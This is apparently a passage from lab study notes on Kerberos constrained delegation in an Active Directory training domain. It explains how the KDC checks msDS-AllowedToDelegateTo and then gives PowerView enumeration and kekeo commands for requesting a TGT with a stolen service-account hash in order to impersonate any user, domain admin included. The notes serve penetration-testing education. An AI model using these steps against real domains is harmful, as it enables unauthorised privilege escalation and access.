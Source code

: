 6. **KDC Checks `msDS-AllowedToDelegateTo` Attribute:**
   - The **KDC** checks the **`msDS-AllowedToDelegateTo`** attribute on the **websvc** service account. This attribute contains a list of **Service Principal Names (SPNs)** to which the `websvc` service is allowed to delegate user credentials. In this case, the KDC verifies that **CIFS/dcorp-mssql** is listed in the `msDS-AllowedToDelegateTo` attribute for the **websvc** service account.
   - If the service is allowed to delegate to `dcorp-mssql`, the KDC will issue a service ticket for the CIFS service on `dcorp-mssql`.

7. **Web Service Uses TGS to Authenticate to CIFS Service:**
   - The web service can now present the service ticket (TGS) for **CIFS/dcorp-mssql** to the **CIFS service** on `dcorp-mssql`.
   - The CIFS service will authenticate the request and allow the web service to act as **Joe**, accessing the resources on the `dcorp-mssql` server as Joe, using

![image](https://github.com/user-attachments/assets/42f6c8e9-99b3-428b-8c07-c6bb79dce6ab)
![image](https://github.com/user-attachments/assets/27bb2bca-3e33-45ee-b18c-f1b3d6616ddb)

** If you compromise the web svc I would be able to access the file system on dcrop-mssql as any user including  domain admin.**

![image](https://github.com/user-attachments/assets/7a511d5d-9de1-4a94-9e28-69d984315cf6)
or 
![image](https://github.com/user-attachments/assets/cc65a56b-43cb-455f-9a61-12da6dc6e767)

![image](https://github.com/user-attachments/assets/d1092ab2-0f4e-40f4-aa9b-526317ac8513)

![image](https://github.com/user-attachments/assets/1a6e9681-8717-4c5c-8c7e-2b83b2d2cef8)

# Abusing Constrained Delegation

## Accessing Services Listed in msDS-AllowedToDelegateTo

Note: To abuse constrained delegation in the scenario above, we need to have access to the `websvc` account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the `websvc` account as ANY user.

### Enumerate Trusted Computers
```powershell
PS C:\AD\Tools> Get-DomainComputer -TrustedToAuth
```

### Request a TGT from websvc

Now, we already have the hash of `websvc` from the `dcorp-adminsrv` machine. We can use the `tgt::ask` module from `kekeo` to request a TGT from `websvc`. 

#### Steps to Request TGT:
```powershell
PS C:\AD\Tools> cd .\kekeo\x64\
PS C:\AD\Tools\kekeo\x64> ls

 Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/15/2018   1:01 AM         593048 kekeo.exe

PS C:\AD\Tools\kekeo\x64> .\kekeo.exe …snip….
 > Ticket in file 'TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi'
```
